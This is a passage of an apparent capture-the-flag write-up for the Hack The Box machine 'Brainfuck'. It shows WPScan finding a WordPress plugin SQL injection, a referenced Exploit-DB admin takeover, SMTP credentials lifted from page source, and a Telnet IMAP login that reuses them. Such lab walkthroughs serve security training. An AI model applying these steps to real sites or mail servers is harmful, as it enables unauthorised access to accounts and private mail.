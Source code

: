 ```
# wpscan --url https://brainfuck.htb --disable-tls-checks

...

 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.0 – Authenticated SQL Injection                                                                                                                      
 |     Fixed in: 8.0.0                                                                                   
 |     References:                                                                                                                                                                                                
 |      - https://wpscan.com/vulnerability/f267d78f-f1e1-4210-92e4-39cce2872757                          
 |      - https://www.exploit-db.com/exploits/40939/                                                     
 |      - https://lenonleite.com.br/en/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/                                                                                        
 |      - https://plugins.trac.wordpress.org/changeset/1556644/wp-support-plus-responsive-ticket-system

 ...
```

WPScan finds an authenticates SQL injection vulnerability, however the results overall do not find anything of much use. Searching Exploit-DB for more exploits related to the ticket system yields https://www.exploit-db.com/exploits/41006/

## Exploitation

### Wordpress

Gaining access to the Wordpress admin account is trivial using the above exploit. All that is required is setting the target URL and user. The username, `admin`, can be easily guessed and it is the default username when installing Wordpress. After running the exploit, the admin panel can be accessed at `/wp-admin/`

After gaining access, some credentials can be found on the `Settings > Easy WP SMTP` page. The password can be extracted simply by viewing the page source.

```
SMTP:orestis:kHGuERB29DNiNE
```

### Mail Server

Using the credentials obtained from wordpress, it is trivial to extract the emails from the server. Any IMAP-capable mail client or even Telnet can be used here. The example below will use Telnet.

```
# **telnet brainfuck.htb** 143                                                                             
Trying 10.10.10.17...
Connected to brainfuck.htb.
Escape character is '^]'.
* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Dovecot ready.
a1 LOGIN orestis kHGuERB29DNiNE
a1 OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UID
PLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SPECIAL-USE] Logged in
a2 LIST "" "*"                                 
```